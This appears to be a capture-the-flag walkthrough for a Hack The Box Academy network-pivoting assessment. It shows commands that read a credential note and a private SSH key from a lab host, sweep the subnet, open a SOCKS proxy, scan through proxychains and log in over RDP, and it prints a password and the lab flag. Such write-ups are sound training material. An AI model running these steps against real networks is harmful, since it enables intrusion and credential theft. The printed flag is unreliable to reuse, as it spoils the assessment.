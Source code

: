 # Skills Assessment

### Scenario

A team member started a Penetration Test against the Inlanefreight environment but was moved to another project at the last minute. Luckily for us, they left a `web shell` in place for us to get back into the network so we can pick up where they left off. We need to leverage the web shell to continue enumerating the hosts, identifying common services, and using those services/protocols to pivot into the internal networks of Inlanefreight. Our detailed objectives are `below`:

***

### Objectives

* Start from external (`Pwnbox or your own VM`) and access the first system via the web shell left in place.
* Use the web shell access to enumerate and pivot to an internal host.
* Continue enumeration and pivoting until you reach the `Inlanefreight Domain Controller` and capture the associated `flag`.
* Use any `data`, `credentials`, `scripts`, or other information within the environment to enable your pivoting attempts.
* Grab `any/all` flags that can be found.

**Note:**

Keep in mind the tools and tactics you practiced throughout this module. Each one can provide a different route into the next pivot point. You may find a hop to be straightforward from one set of hosts, but that same tactic may not work to get you to the next. While completing this skills assessment, we encourage you to take proper notes, draw out a map of what you know of already, and plan out your next hop. Trying to do it on the fly will prove `difficult` without having a visual to reference.

***

### Connection Info

`Foothold`:

`IP`:

You will find the web shell pictured below when you browse to support.inlanefreight.local or the target IP above.

![text](https://academy.hackthebox.com/storage/modules/158/webshell.png)

\


Note: When spawning your target, we ask you to wait for 3 - 5 minutes until the whole lab with all the configurations is set up so that the connection to your target works flawlessly.

## Walkthrough

```bash
#target machine
cat /home/webadmin/for-admin-eyes-only
#note to self,
#user:mlefay
#password:Plain Human work!
cat /home/webadmin/id_rsa # its in webadmin folder, copy then try to ssh with it
#kali
vim id_rsa
chmod 600 id_rsa
ssh -i id_rsa webadmin@10.129.229.129
```

now lets enumerate

```bash
history #we found lot of things here
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
#64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.023 ms
#64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=1.29 ms
```

now lets pivot from that machine

```bash
ssh -D 9050 -i id_rsa webadmin@10.129.229.129
#kali
proxychains nmap 172.16.5.35 -sV
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.9 (protocol 2.0)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

now lets enumerate further

```bash
proxychains nmap -sV -sC -p22,139,3389,445,135 172.16.5.35
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.9 (protocol 2.0)
| ssh-hostkey: 
|   256 0e:29:c7:ed:0b:4c:80:87:a7:89:3f:b0:45:59:d9:17 (ECDSA)
|_  256 f3:e7:0b:01:fa:ac:9c:5b:fa:9c:0e:79:10:6c:9d:1f (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-27T12:10:08+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=PIVOT-SRV01.INLANEFREIGHT.LOCAL
| Not valid before: 2024-02-26T11:33:16
|_Not valid after:  2024-08-27T11:33:16
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: PIVOT-SRV01
|   DNS_Domain_Name: INLANEFREIGHT.LOCAL
|   DNS_Computer_Name: PIVOT-SRV01.INLANEFREIGHT.LOCAL
|   DNS_Tree_Name: INLANEFREIGHT.LOCAL
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-27T12:09:54+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 3s, deviation: 0s, median: 2s
| smb2-time: 
|   date: 2024-02-27T12:09:55
|_  start_date: N/A
```

lets login to rdp

```bash
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /cert-ignore /dynamic-resolution
type C:\flag.txt
S1ngl3-Piv07-3@sy-Day
#in cmd
ipconfig
#IPv4 Address. . . . . . . . . . . : 172.16.6.35
#Subnet Mask . . . . . . . . . . . : 255.255.0.0
```
